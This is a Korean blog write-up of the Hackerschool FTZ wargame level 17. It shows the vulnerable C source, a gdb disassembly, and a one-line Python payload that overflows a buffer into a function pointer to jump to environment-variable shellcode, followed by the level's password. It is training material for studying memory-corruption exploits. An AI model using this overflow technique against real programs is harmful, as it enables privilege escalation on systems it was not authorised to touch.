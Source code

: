 ```yaml
---
date: '2022-10-07'
before : '2022-10-06'
after : '2022-10-08'
title: '시스템 해킹(13) : 해커스쿨 FTZ 레벨 17'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제는 사실 정말 설명이 필요 없을정도로 Level 16과 비슷하다...

### 1. Level 17

소스코드부터 확인해보자.

```
#include <stdio.h>

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  setreuid(3098,3098);

  call();
}
```

크게 어려울 것 없는 코드다. 다만 이번엔 printit함수만 존재한다! 그렇다고 RET까지 가기에는 입력받는 범위가 모자라다. 


그럼 단순히 Shell 코드 환경변수 하나 만들어서 그 주소를 printit에 대입하면 될 것이다. 환경변수를 만들고 주소까지 확인하는 법은 내 블로그 FTZ Level12에 자세히 나와있다!


환경변수를 만들고 주소까지 확인해보니 :
```
0xbffffc18
```
값이 나왔다. gdb로 포인터와 배열 사이의 거리를 재보자.
```
0x080484a8 <main+0>:    push   ebp
0x080484a9 <main+1>:    mov    ebp,esp
0x080484ab <main+3>:    sub    esp,0x38
0x080484ae <main+6>:    mov    DWORD PTR [ebp-16],0x8048490
0x080484b5 <main+13>:   sub    esp,0x4
0x080484b8 <main+16>:   push   ds:0x804967c
0x080484be <main+22>:   push   0x30
0x080484c0 <main+24>:   lea    eax,[ebp-56]
0x080484c3 <main+27>:   push   eax
0x080484c4 <main+28>:   call   0x8048350 <fgets>
0x080484c9 <main+33>:   add    esp,0x10
0x080484cc <main+36>:   sub    esp,0x8
0x080484cf <main+39>:   push   0xc1a
0x080484d4 <main+44>:   push   0xc1a
0x080484d9 <main+49>:   call   0x8048380 <setreuid>
0x080484de <main+54>:   add    esp,0x10
0x080484e1 <main+57>:   mov    eax,DWORD PTR [ebp-16]
0x080484e4 <main+60>:   call   eax
0x080484e6 <main+62>:   leave
0x080484e7 <main+63>:   ret
0x080484e8 <main+64>:   nop
0x080484e9 <main+65>:   nop
```
예상했지만, 저번 문제와 똑같다(...) 


그냥 저번 문제의 코드에서 주소만 쉘코드 주소로 바꿔서 넣어보니 문제가 풀린다.
```
(python -c 'print "A"*40+"\x18\xfc\xff\xbf"'; cat) | ./attackme
```

비밀번호 : why did you do it


---
## Source

- 해커스쿨 FTZ
- Me!



